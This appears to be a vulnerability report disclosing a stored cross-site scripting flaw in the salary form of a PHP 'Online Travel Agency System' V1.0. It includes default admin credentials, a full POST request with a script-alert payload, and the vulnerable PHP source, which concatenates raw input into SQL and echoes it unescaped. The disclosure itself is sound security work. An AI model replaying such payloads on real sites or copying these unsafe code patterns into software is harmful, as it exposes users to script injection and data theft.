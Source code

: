 # [Online Travel Agency System-Stored XSS-insert.php]

## Basic Information

**[Bug Reporter]:** DililLearngent

**[Application Vendors]:** https://www.sourcecodester.com/online-travel-agency-system-using-php.html

**[Affected Version]:** Online Travel Agency System V1.0

**[Test Environment]:** windows10+apache+php7.0

**[Install]:**

1. start **Apache** and **MySQL**.

2. **Extract** the downloaded source code **zip** file.

3. **Copy** the extracted source code folder and **paste** it into the **www directory**.

4. **Create** a **new database** naming **"travel_agency"**.

5. **Import** the provided **SQL** file. The file is known as **"travel_agency.sql"** located inside the extracted source code folder.

6. **Browse** the **Online Travel Agency System** in a **browser**. i.e. **http://localhost/Travel**

   **Admin Access Information:**

   Username: **admin**
   Password: **admin**

## Bug Information

**[Vulnerability type]:** Stored XSS

**[Vulnerability Url]:** `http://10.151.222.198/Travel/admin/insert.php`

**[Vulnerability Location]:** /Travel/admin/insert.php

**[Vulnerability Test]:**

1. View http://10.151.222.198/Travel/admin/salary1.php, Insert the XSS payload in **"Description"**.

   ![](../../img/20230428180338.png)

2. After clicking the submit button, the update is successful and the XSS payload is successfully stored in the database.

   ```bash
   POST /Travel/admin/insert.php HTTP/1.1
   Host: 10.151.222.198
   Content-Length: 106
   Cache-Control: max-age=0
   Upgrade-Insecure-Requests: 1
   Origin: http://10.151.222.198
   Content-Type: application/x-www-form-urlencoded
   User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/112.0.0.0 Safari/537.36
   Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
   Referer: http://10.151.222.198/Travel/admin/salary1.php
   Accept-Encoding: gzip, deflate
   Accept-Language: zh-CN,zh;q=0.9
   Cookie: PHPSESSID=86dm5d6ncj5mk3db07gti39pb4
   Connection: close
   
   employee=Haqdost&month=jan&amount=55&description=%3Cscript%3Ealert%281%29%3C%2Fscript%3E&salaryform=submit
   ```

3. Visit `http://10.151.222.198/Travel/admin/salary_view_all.php`, and a pop-up window appears.

   ![](../../img/20230428180424.png)

   ![](../../img/20230428180502.png)

**[code analysis]:**

/Travel/admin/insert.php

```php
<?php //insertion in salary form

if(isset($_POST["salaryform"]))
{
	
	$employee=$_POST["employee"];
  $month=$_POST["month"];
  $amount=$_POST["amount"];
  $description=$_POST["description"];
 $sql="insert into salary(employee,month,amount,description,inserted_by)values('$employee','$month','$amount','$description','$user')";
 $result=mysqli_query($con,$sql) or die(mysqli_error($con));
 
 $salary_id=getMaxID('salary_id','salary');

 insertCash($amount,"Cr",$description);
 
 $maxCashID=getMaxID('cashID','cash');
 mysqli_query($con,"INSERT INTO transaction(cashID,salaryID) VALUES ('$maxCashID', '$salary_id')" ) or die("Error in salary Query :: ".mysqli_error($con));
 
 if($result)
	{ echo"data is inserted successfully";
	header('location:salary_view_all.php');
	}
	else
	{ echo "error occured";
	}
 
}
?>
```

When the **description** parameter value in the POST is obtained, it is stored in the database without any filtering, resulting in stored XSS.

/Travel/admin/salary_view_all.php

```php+HTML
 <?php 
  $sql="select*from salary";
  $result=mysqli_query($con,$sql) or die(mysqli_error($con));
  if(mysqli_num_rows($result)<1)
  {
	  echo"<script type='text/javascript'>alert('No Salary found');
	  document.location='employee_view.php'</script>";
	 
  }
  while($row=mysqli_fetch_array($result))
  {
	  $salary_id=$row["salary_id"];	 	 	 	 	 	 		 
	  $month=$row["month"];
 	  $amount=$row["amount"];
 	  $description=$row["description"];
	   $employee=$row["employee"];
	    $date=$row["date"];
	    $inserted_by=$row["inserted_by"];
	 
	 
  ?>

<td><?php       echo $description; ?></td>
```

And the output is made in the page.